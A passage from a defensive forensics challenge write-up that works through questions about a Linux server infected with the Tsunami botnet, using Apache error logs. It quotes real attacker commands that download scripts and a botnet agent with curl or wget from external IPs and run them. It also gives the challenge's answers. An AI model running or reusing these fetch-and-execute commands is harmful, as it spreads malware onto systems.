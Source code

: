 ## Q5. What is the name of the botnet in Q4?
<img width="998" height="255" alt="image" src="https://github.com/user-attachments/assets/5ffd1ba9-f9cd-4546-b4d2-1281a0c70be7" />
Tsunami <img width="192" height="192" alt="logo-O35E636P" src="https://github.com/user-attachments/assets/a18183fa-f99e-459e-b42a-a9767edb9e1b" />


## Q6. What IP address matches the creation timestamp of the botnet agent file in Q4?
If we look at the created time of the file in Q4 timestamp should be around 11/11/2021 19:09:51 (UTC),  and since there are some comments that relate this sample to activity running Apache Log4j RCE attempts, let's check the logs from Apache, which seems to had been running on the system.
<img width="946" height="464" alt="image" src="https://github.com/user-attachments/assets/879475f4-6241-4fd0-ad50-3bf4172715b4" />

## Q7. What URL did the attacker use to download the botnet agent?
Attackers often use tools like wget or curl to download malicious files. These commands should be logged. Lets search the Apache error_log for any wget or curl commands executed close to the creation timestamp of the botnet agent.
<img width="938" height="125" alt="image" src="https://github.com/user-attachments/assets/2ef3a003-a449-4982-b45c-061023f65e17" />
wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86;
The wget command downloads a file from http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86, saving it locally as dk86. The URL indicates the file was hosted on an HTTP server at that IP, likely within a compromised WordPress Twenty Sixteen theme to hide the malware. The attacker then made it executable (chmod +x dk86) and ran it (./dk86), confirming the botnet agent was actively executed on the system.

## Q8. What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?
To identify the file the attacker downloaded and executed, we analyzed the Apache error logs for suspicious URLs. We filtered out benign requests to trusted domains like Google and Microsoft, leaving a set of unfamiliar URLs indicative of potential malicious activity. One notable URL was:
<img width="1316" height="69" alt="image" src="https://github.com/user-attachments/assets/cffaafe3-8ca2-41cd-8685-326b254e1c95" />
the decoded base64 string: curl -s http://116.203.212.184/1010/b64.php -u client:%@123-456%@ --data-urlencode "s=<Base64_String>" | sh
http://116.203.212.184/1010/b64.php

## Q9. The attacker downloaded SH scripts. What are the names of these files?
If we grep error_log looking for .sh files we can easily spot three of them that match the suggested solution (remember to include a whitespace after the commas when entering the answer)
Command: grep echo error_log |grep .sh
And here we can see all three different names
[Sun Nov 07 07:14:37.098728 2021] [dumpio:trace7] [pid 4449:tid 139978805794560] mod_dumpio.c(103): [client 62.76.41.46:51230] mod_dumpio:  dumpio_in (data-HEAP): A=|echo;(curl -s 45.137.155.55/ap.sh||wget -q -O- 45.137.155.55/ap.sh)|bash
[Sun Nov 07 10:39:12.876655 2021] [dumpio:trace7] [pid 4449:tid 139978805794560] mod_dumpio.c(103): [client 40.117.148.240:49202] mod_dumpio:  dumpio_in (data-HEAP): A=|echo;curl -s http://103.55.36.245/0_cron.sh -o 0_cron.sh || wget -q -O 0_cron.sh http://103.55.36.245/0_cron.sh; chmod 777 0_cron.sh; sh 0_cron.sh
[Sun Nov 07 10:52:33.141762 2021] [dumpio:trace7] [pid 4449:tid 139978856150784] mod_dumpio.c(103): [client 40.117.148.240:51776] mod_dumpio:  dumpio_in (data-HEAP): A=|echo;curl -s http://103.55.36.245/0_linux.sh -o 0_linux.sh || wget -q -O 0_linux.sh http://103.55.36.245/0_linux.sh; chmod 777 0_linux.sh; sh 0_linux.sh
